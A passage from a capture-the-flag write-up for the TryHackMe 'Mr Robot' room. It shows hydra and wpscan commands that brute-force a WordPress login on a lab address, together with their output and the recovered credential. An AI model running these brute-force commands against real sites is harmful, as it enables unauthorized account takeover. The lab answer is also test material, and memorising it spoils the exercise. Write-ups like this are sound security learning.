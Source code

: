 ```
Host: 10.10.129.15
...
...
...

log=admin&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.129.15%2Fwp-admin%2F&testcookie=1POST /wp-login.php HTTP/1.1
```
  
## <ins>Username brute force.</ins>
  
> use the last path of our burp output.  
  

`hydra -L fsocity_sorted.txt -v -p test 10.10.129.15 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.129.15%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 30`
  

```sh
hydra -L fsocity_sorted.txt -v -p test 10.10.129.15 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.129.15%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 30

[DATA] attacking http-post-form://10.10.129.15:80/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.129.15%2Fwp-admin%2F&testcookie=1:F=Invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2367.00 tries/min, 2367 tries in 00:01h, 9085 to do in 00:04h, 30 active
[80][http-post-form] host: 10.10.129.15   login: elliot   password: test
[80][http-post-form] host: 10.10.129.15   login: ELLIOT   password: test
[80][http-post-form] host: 10.10.129.15   login: Elliot   password: test
```
  
Possible Usernames: elliot, Elliot and ELLIOT. (The name of the main character in MrRobot)
  

## <ins>3.) Password brute force</ins>
  
a) `wpscan --url http://10.10.129.15 -t 50 -U Elliot -P fsocity_sorted.txt`
  

```sh
wpscan --url http://10.10.129.15 -t 50 -U Elliot -P fsocity_sorted.txt
[!] Valid Combinations Found:
| Username: Elliot, Password: ER28-0652 
```
  
b) `hydra -l Elliot -v -P fsocity_sorted.txt 10.10.129.15 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`
   
  
---
  
  
# <ins>Wordpress php exploitation</ins>
  

[thmlink]: https://tryhackme.com/room/mrrobot
[dirsearch]: https://github.com/maurosoria/dirsearch